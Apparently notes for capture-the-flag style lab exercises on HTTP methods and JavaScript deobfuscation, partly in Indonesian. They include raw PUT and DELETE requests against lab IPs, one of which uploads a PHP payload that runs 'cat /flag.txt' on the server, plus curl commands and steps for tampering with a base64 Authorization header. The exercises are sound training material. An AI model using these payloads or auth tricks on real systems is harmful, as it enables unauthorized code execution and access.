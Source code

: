 # WEB REQUESTS 
## GET Method
Cari Authorization > decode > masukkan username dan password > /flag.php?num1&num2=1337
## POST Method
Temukan auth > decode > pangkas menjadi admin saja > encode > masukan ke GET request.
## PUT and DELETE Methods
```sh
PUT /flag.php HTTP/1.1
Host: 64.227.39.88:30829
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://64.227.39.88:30829/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 25

'<?=`cat /flag.txt`;?>'
```

```sh
DELETE /flag.txt HTTP/1.1
Host: 64.227.39.88:30829
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://64.227.39.88:30829/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

# JAVASCRIPT DEOBFUSCATION
## Source Code
Repeat what you learned in this section, and you should find a secret flag, what is it?
open the html
or 
view-source:http://178.62.99.180:30383/
## HTTP Requests
Try applying what you learned in this section by sending a 'POST' request to '/serial.php'. What is the response you get?
curl http://64.227.39.88:32005/serial.php -X POST
## Decoding
Using what you learned in this section, determine the type of encoding used in the string you got at previous exercise, and decode it. To get the flag, you can send a 'POST' request to 'serial.php', and set the data as "serial=YOUR_DECODED_OUTPUT".
```sh
curl -s http://64.227.39.89:31786/serial.php -X POST -d  "serial=$(curl -s http://64.227.39.89:31786/serial.php -X POST|base64 -d)"
```